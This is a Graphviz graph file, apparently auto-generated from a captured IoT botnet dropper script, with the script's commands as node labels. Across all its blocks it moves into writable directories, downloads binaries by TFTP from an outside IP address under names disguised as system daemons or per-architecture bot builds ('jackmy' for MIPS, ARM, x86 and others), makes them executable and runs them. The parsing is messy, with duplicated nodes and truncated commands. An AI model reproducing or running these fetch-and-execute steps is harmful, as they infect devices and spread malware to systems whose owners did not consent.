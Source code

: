 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp -r ntpd -g 208.67.1.36 "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp -r sshd -g 208.67.1.36 "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp -r openssh -g 208.67.1.36 "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp -r bash -g 208.67.1.36 "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp -r tftp -g 208.67.1.36 "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp -r wget -g 208.67.1.36 "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp -r cron -g 208.67.1.36 "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp -r ftp -g 208.67.1.36 "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp -r pftp -g 208.67.1.36 "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp -r sh -g 208.67.1.36 "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp -r   -g 208.67.1.36 "];
214 -> 216 [label=";,"];
216 [label="cat   badbox "];
216 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp -r apache2 -g 208.67.1.36 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp -r telnetd -g 208.67.1.36 "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 264 [label=";,"];
264 [label="cp /bin/busybox -O /tmp/badbox "];
264 -> 264
266 [label="tp -r jackmymipsel -g 208.67.1.36 "];
266 -> 266
268 [label="cat jackmymipsel badbox "];
268 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 276 [label=";,"];
276 [label="tp -r jackmymips -g 208.67.1.36 "];
276 -> 276
278 [label="cat jackmymips badbox "];
278 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 286 [label=";,"];
286 [label="tp -r jackmysh4 -g 208.67.1.36 "];
286 -> 286
288 [label="cat jackmysh4 badbox "];
288 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 296 [label=";,"];
296 [label="tp -r jackmyx86 -g 208.67.1.36 "];
296 -> 296
298 [label="cat jackmyx86 badbox "];
298 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 306 [label=";,"];
306 [label="tp -r jackmyarmv6 -g 208.67.1.36 "];
306 -> 306
308 [label="cat jackmyarmv6 badbox "];
308 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 316 [label=";,"];
316 [label="tp -r jackmyi686 -g 208.67.1.36 "];
316 -> 316
318 [label="cat jackmyi686 badbox "];
318 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 326 [label=";,"];
326 [label="tp -r jackmypowerpc -g 208.67.1.36 "];
326 -> 326
328 [label="cat jackmypowerpc badbox "];
328 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 336 [label=";,"];
336 [label="tp -r jackmyi586 -g 208.67.1.36 "];
336 -> 336
338 [label="cat jackmyi586 badbox "];
338 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 346 [label=";,"];
346 [label="tp -r jackmym86k -g 208.67.1.36 "];
346 -> 346
348 [label="cat jackmym86k badbox "];
348 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 356 [label=";,"];
356 [label="tp -r jackmysparc -g 208.67.1.36 "];
356 -> 356
358 [label="cat jackmysparc badbox "];
358 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
}
